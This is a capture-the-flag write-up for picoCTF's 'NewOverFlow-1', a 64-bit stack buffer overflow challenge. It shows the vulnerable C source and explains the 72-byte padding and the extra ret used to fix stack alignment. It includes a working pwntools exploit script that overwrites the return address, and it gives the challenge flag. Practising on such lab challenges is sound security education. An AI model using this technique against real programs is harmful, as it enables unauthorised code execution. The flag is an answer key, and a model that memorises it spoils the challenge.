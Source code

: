 # NewOverFlow-1: Points: 200

Note: I was not able to solve this challenge during the CTF.
I decided to revisit this challenge afterwards, once I had learned more about binary exploitation.
It seemed like a relatively simple task, so at first, I wasn't sure why my payload was failing to produce a flag.
Some research led me to the issue of stack misalignment, the solution to which is demonstrated in this writeup.

## description

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](./vuln). You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. [Source](./vuln.c).

## solution

This challenge is very similar to OverFlow 1, however, it is slightly complicated by the fact that it is a 64-bit program.
Regardless, the goal is still to overwrite the return address and call the ```flag()``` function.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We know that the buffer size is 64 bytes, and that 8 bytes will be reserved for the RBP, therefore, we can include padding of 72 bytes and start writing our recognisable pattern.
This time, it is ideal to use 8-character chunks as opposed to 4-character chunks, so the string might look like AAAAAAAABBBBBBBBCCCCCCCC...

If we run the program in GDB and check the value if RBP, we'll find that its been overwritten with whichever character was used for padding.
Using this, we know that the return address is begin overwritten with 0x4141414141414141.

We're able to call the ```flag()``` function successfully, however, the program throws a segmentation fault error when trying to print the flag.
This is because the 72-byte payload offset the call stack so that it was no longer a multiple of 16 bytes.

To resolve this, we can remove 8 bytes from the stack by having the function first return to the last line of itself, essentially calling `ret` twice, and writing the address of ```flag()``` directly after that.

## exploit script

This script is similar to the script from OverFlow 1, however, it uses the ```p64()``` function to format the addresses for a 64 bit program.

Note that the address of the last instruction of the ```vuln()``` is our first return address.
As the instruction here is a `ret` instruction, it will immediately read the next value on the stack and return to it, this being the address of the ```flag()``` function.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)
print(vuln.recvline())

print("sending payload")
vuln.sendline(('A'*72).encode() + p64(0x00000000004007e7) + p64(0x0000000000400767) + '\n'.encode())

print("done")
vuln.interactive()
```

Flag: ```picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef}```

